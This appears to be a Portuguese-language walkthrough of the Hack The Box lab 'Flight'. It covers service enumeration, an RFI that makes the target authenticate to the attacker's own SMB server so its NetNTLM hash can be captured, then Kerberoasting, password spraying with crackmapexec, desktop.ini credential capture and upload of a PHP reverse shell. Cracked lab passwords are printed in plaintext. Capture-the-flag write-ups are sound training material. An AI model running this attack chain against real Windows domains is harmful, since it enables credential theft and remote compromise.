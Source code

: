 # Flight

## Enumeration

Nmap script

![qownnotes-media-VMuwah](../../media/qownnotes-media-VMuwah.png)

UDP scan

![qownnotes-media-VMgxgZ](../../media/qownnotes-media-VMgxgZ.png)

Full TCP scan

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Então temos:

DNS HTTP Kerberos RPC SMB LDAP

### HTTP

![qownnotes-media-zNgBXB](../../media/qownnotes-media-zNgBXB.png)

![qownnotes-media-TwGaZc](../../media/qownnotes-media-TwGaZc.png)

![qownnotes-media-VveKHl](../../media/qownnotes-media-VveKHl.png)

![qownnotes-media-qQXkSz](../../media/qownnotes-media-qQXkSz.png) =======> Possible entry point

Dando sequência após a enumeração dos demais. Nada encontrado exceto por este subdomínio:

```
school.flight.htb
```

### SMB

![qownnotes-media-bkzCgk](../../media/qownnotes-media-bkzCgk.png)

```
g0.flight.htb
```

![qownnotes-media-DQoVIc](../../media/qownnotes-media-DQoVIc.png)

### RPC

![qownnotes-media-kBtyxd](../../media/qownnotes-media-kBtyxd.png)

### LDAP

![qownnotes-media-LnGbjN](../../media/qownnotes-media-LnGbjN.png)

### Kerberos

```
kerbrute userenum --domain flight.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.187
```

![qownnotes-media-RAnyke](../../media/qownnotes-media-RAnyke.png)

### DNS

![qownnotes-media-OxlPjV](../../media/qownnotes-media-OxlPjV.png)

![qownnotes-media-nyDtLD](../../media/qownnotes-media-nyDtLD.png)

![qownnotes-media-OyCEfo](../../media/qownnotes-media-OyCEfo.png)

### HTTP continue

```
school.flight.htb
```

![qownnotes-media-iUmICa](../../media/qownnotes-media-iUmICa.png)

![qownnotes-media-kMffXk](../../media/qownnotes-media-kMffXk.png)

Aqui eu notei que o que muda é o parâmetro "view" da URL, então eu tentei esse mesmo teste, mas de maneira diferente:

```
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 1102
```

![qownnotes-media-XXURur](../../media/qownnotes-media-XXURur.png)

![qownnotes-media-puTALa](../../media/qownnotes-media-puTALa.png)

As que vieram diferentes foram:

![qownnotes-media-KrRjij](../../media/qownnotes-media-KrRjij.png)

```
g0.flight.htb
```

![qownnotes-media-CDlMtu](../../media/qownnotes-media-CDlMtu.png)

Deu em nada aqui

No entanto, se formos parar para perceber, me parece que isso pode estar sendo consultado no banco de dados... Vamos para um outro teste :

#### SQLi

```
ffuf -c -ic -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 7069,1170,1102
```

![qownnotes-media-NHAXrq](../../media/qownnotes-media-NHAXrq.png)

![qownnotes-media-RlSMVb](../../media/qownnotes-media-RlSMVb.png)

![qownnotes-media-SdlWrO](../../media/qownnotes-media-SdlWrO.png)

![qownnotes-media-HtZCrq](../../media/qownnotes-media-HtZCrq.png)

#### LFI

PWNED!

![qownnotes-media-GeVlbb](../../media/qownnotes-media-GeVlbb.png)

## Exploitation

Para conseguir explorar essa vulnerabilidade, testei algumas coisas, no entanto, imaginei que fosse algum arquivo que eu deveria extrair e , na verdade se tratava de um RFI e, sendo assim, seria possível obter o hash de senha por meio do seguinte payload:

```
impacket-smbserver -smb2support smb .

http://school.flight.htb/index.php?view=//10.10.14.14/smb/test.txt
```

Dessa forma eu forço o sistema a me enviar o hash netNTLM da máquina e eu posso extraí-lo para quebrá-lo e dar sequência no ataque:

![qownnotes-media-hMblhO](../../media/qownnotes-media-hMblhO.png)

![qownnotes-media-JCOaeL](../../media/qownnotes-media-JCOaeL.png)

Tentativa com Kerberoasting

```
impacket-GetUserSPNs 'flight.htb/svc_apache:S@Ss!K@*t13' -dc-ip 10.10.11.187 -request
```

As Rep Roasting:

```
impacket-GetNPUsers -dc-ip 10.10.11.187 flight.htb/ -usersfile users.txt -format john -outputfile hashes

enum4linux -u svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
 
```

Comecei a entrar em vários diretórios, mas de novo sem saber exatamente o que procurar no SMB, exceto pelo Groups.xml Enumerei pelo bloodhound:

```
 bloodhound-python -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb -v --zip -c All -dc g0.flight.htb -ns 10.10.11.187
 
```

Sem sucesso. Password Spray:

```
crackmapexec ldap 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p passwords.txt --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue
```

![qownnotes-media-ZJWfVt](../../media/qownnotes-media-ZJWfVt.png)

Continuando a enumeração:

```
crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares
```

![qownnotes-media-Swipnb](../../media/qownnotes-media-Swipnb.png)

Nesse momento, é interessante considerar a possibilidade de explorar o serviço via SMB, dado que temos autorização de escrita em um dos compartilhamentos listados. Temos alguns vetores para este caso,sendo eles documentados [aqui](../../3\_Exploitation/SMB.md)

Utilizando um desktop.ini com o exemplo obtido na referência acima, conseguimos a credencial do c.bum

c.bum:Tikkycoll\_431012284

Que tem acesso de escrita em uma pasta compartilhada também chamada Web:

```
crackmapexec smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares
```

Depois disso, basta subir uma shell reversa em PHP para conseguir execução de comandos na máquina:

```
smbclient -U flight.htb/c.bum //10.10.11.187/Web -c "put revshell.php"
```
